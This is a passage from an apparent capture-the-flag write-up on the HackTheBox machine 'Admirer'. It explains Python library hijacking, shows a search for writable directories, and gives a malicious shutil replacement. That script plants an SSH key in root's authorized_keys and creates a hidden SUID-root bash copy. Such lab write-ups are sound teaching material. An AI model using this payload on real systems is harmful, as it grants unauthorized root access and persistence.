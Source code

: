 

This means that Python will first try to look in the current script
directory, then `/tmp`, then the Python installs to try to load
`shutil`.

#### Where

Playing around with this box for a few minutes, it becomes clear that
`/tmp` and `/home/waldo` are being cleared of files I create every
couple minutes. Those aren't very OPSEC smart places to be working
anyway. I could look at `/dev/shm`, but it's mounted as `noexec`:



    waldo@admirer:/opt/scripts$ mount | grep shm
    tmpfs on /run/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=1019460k)



I can look for writable directories:



    waldo@admirer:/opt/scripts$ find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'
    /var/lib/php/sessions
    /var/tmp
    /tmp
    /home/waldo
    /home/waldo/.nano



`/var/tmp` seems like a good option (`/home/waldo/.nano` would have been
good too).

#### What

If this works, root is going to run some Python code for me. My first
instinct is to use a reverse shell, but that might actually have issues.
If the process errors out or ends, my session could die with it (it
actually would work fine in this case). There are tons of options here,
but I'll show two.

-   Copy `/bin/bash` and set it owned by root and SUID.
-   Write my public SSH key into `/root/.ssh/authorized_keys`.

I'll write a Python3 script that does both of those on my local box:



    #!/usr/bin/python3

    import os

    def make_archive(a,b,c):
        pass

    os.system("mkdir -p /root/.ssh; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFFzFsH+WX95lqeCJkOp6cRZufRzw8pGqdoj1q4NL9LmPvtDCiGxsDb5D+vF6rXMrW0cqH3P4kYiTG8+RLrolGFTkR+V/2CXDmABQx5T640fCH77oiMF8U9uoKGS+ow5vA4Vq4QqKFsu+J9qn/sMbLCJ/      874tay6a1ryPJdtjj0SxTems1p2WgklYiZZKKscmYH4+dMtHMdQAKv3CTpWbSE7De4UvAUFvxiKS1yHLh8QF5L0YCUZ42pNtzZ4CHPRojxJZKbOHhTOJms4CLi3CXN/ZEpPijt0mJaGrxnA3oOkOFIscqoeXYFybTs82KzKqwwP4Y6ACWJwk1Dqrv37I/L+9YU/8Rv5b+r0/c1p9lZ1pnnjRt46g/              kocnY3AZxcbmDUHx5wAlsNwK8s5Aw+IOicBYCOIv2KyXUT61/lW2iUTBIiMh0yrqehLfJ7HS3pSycQnWdVPoRbmCfvuJqQGyaJMu+ceqYqpwHEBoUlIjKnSHF30aHKL5ALFREEo1FCc= root@kali' >> /root/.ssh/authorized_keys")
    os.system('cp /bin/bash /var/tmp/.0xdf; chown root:root /var/tmp/.0xdf; chmod 4755 /var/tmp/.0xdf')

